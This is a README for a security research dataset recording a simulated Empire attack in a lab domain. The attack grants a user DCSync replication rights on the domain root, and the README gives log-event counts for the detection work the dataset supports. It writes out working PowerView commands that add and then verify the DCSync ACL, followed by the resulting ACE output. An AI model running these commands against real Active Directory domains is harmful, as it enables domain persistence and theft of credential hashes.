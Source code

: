 
# Empire DCSync

An adversary with DA permissions can add an ACL to the Root Domain for any user, despite being in no privileged groups, having no malicious sidHistory, and not having local admin rights on the domain controller itself .

## Technique(s) ID

T1222

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync_acl.tar.gz](./empire_dcsync_acl.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01125905

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             280 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             181 |
| Security                                 | Token Right Adjusted Events                            |              93 |
| Security                                 | User Account Management                                |              11 |
| Security                                 | Detailed File Share                                    |               9 |
| Security                                 | Directory Service Changes                              |               6 |
| Security                                 | Group Membership                                       |               4 |
| Security                                 | Logoff                                                 |               4 |
| Security                                 | Logon                                                  |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Authentication Policy Change                           |               3 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             500 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             271 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             149 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              70 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              45 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              27 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              18 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               6 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             264 |


## Empire Activity

```
scriptimport data/module_source/situational_awareness/network/powerview.ps1
scriptcmd Add-DomainObjectAcl -TargetIdentity "dc=shire,dc=com" -TargetDomain shire.com -PrincipalIdentity nmartha -Rights DCSync
```

You can verify that his was applied in Empire by running the following commands:

```
scriptcmd $nmarthaSid = Get-DomainUser nmartha | Select-Object -ExpandProperty objectsid; Get-DomainObjectACL  "dc=shire,dc=com" -Domain shire.com -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $nmarthaSid}
```

```
AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```